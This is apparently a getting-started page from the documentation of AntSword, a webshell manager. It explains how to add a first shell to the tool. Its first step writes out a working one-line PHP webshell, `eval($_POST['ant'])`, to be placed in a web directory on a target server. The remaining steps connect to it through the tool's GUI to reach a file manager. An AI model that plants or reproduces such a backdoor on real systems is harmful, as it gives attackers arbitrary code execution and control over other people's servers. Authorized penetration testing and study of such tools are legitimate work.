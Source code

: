 First Shell
---

> This section will teach you how to add a webshell quickly.

They are as follows：

> Take `PHP` as an Example:

##### 1.create a shell file under specific web directory in your target server

File Name: `ant.php`

Contents:

```
<?php eval($_POST['ant']); ?>
```

![][img_first_shell_1]

##### 2.Open AntSword, `right click` in the blank, select 「`add data`」 in the popped-up menu.

![][img_first_shell_2]

##### 3.Fill in anything needed in popped-up window.

![][img_first_shell_3]

Then, click `click` button. You should be able to see the webshell you've just added.

![][img_first_shell_4]

##### 4.Double-click the shell you've just added, then you should be able to see the main interface of file manager.

![][img_first_shell_5]

> All is that simple! ：）

[img_first_shell_1]: http://antsword.l1n3.net/doc/getting_started/first_shell_1.jpg
[img_first_shell_2]: http://antsword.l1n3.net/doc/getting_started/first_shell_2.jpg
[img_first_shell_3]: http://antsword.l1n3.net/doc/getting_started/first_shell_3.jpg
[img_first_shell_4]: http://antsword.l1n3.net/doc/getting_started/first_shell_4.jpg
[img_first_shell_5]: http://antsword.l1n3.net/doc/getting_started/first_shell_5.jpg
